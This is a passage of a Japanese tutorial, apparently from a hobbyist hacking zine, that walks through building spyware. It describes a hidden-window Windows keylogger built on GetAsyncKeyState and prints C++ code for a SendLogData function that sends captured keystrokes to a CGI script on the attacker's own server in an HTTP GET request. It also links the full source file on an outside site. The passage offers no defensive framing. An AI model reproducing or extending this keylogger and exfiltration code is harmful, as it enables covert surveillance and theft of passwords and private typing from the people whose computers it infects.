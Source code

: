 ```cgi
</html>
EOF
exit;
```

　短くするために改行のみの行を省きました。読みにくいですけど、短いので頑
張ってよんでください。CGIプログラムを組んだことがある方なら数分で理解でき
ると思います。前準備はこれだけです。

　では、スパイウェアを作りましょう。


### 0x04 HTTP（HyperText Transfar Protocol）

　save.cgiのあるサーバのポート80番にアクセスしデータを渡すプログラムを作
成します。CGIにはターゲットＰＣのキーログを渡すことにします。キーログは
GetAsyncKeyStateを利用することにします。HYDEをdefineするとWindowが非表示
になります。

+\-\-\- spy01.cpp \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+
| http://kenjinet.s26.xrea.com/spy/spy01.cpp |
+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+

```
BOOL SendLogData(char *MainMemory, UINT len)
{
    SOCKET sock;
    if((sock \= ServConnect(HOST_NAME)) \=\= \-1){
        return TRUE;
    }

    char *SendAllData \= new char[len + (int)strlen(FILE_PATH) + 32];

    wsprintf(SendAllData,
        "GET %s?%s HTTP/1.0\r\n\r\n",
        TEXT(FILE_PATH), MainMemory);

    send(sock, SendAllData, (int)strlen(SendAllData), 0);
    delete []SendAllData;

    shutdown(sock, SD_BOTH);
    closesocket(sock);
    WSACleanup();

    return FALSE;
}
```

　SendLogData関数がキーログデータの送信を受け持ちます。ServConnectは接続
処理をまとめたものです。ホストを渡すとソケットを返してくれます。この関数
のソースはシンプルなので適当に読んでください。MainMemoryにはキーログのデ
ータが入り、lenにはその長さが入ります。これらをSendAllDataにまとめて送信
します。
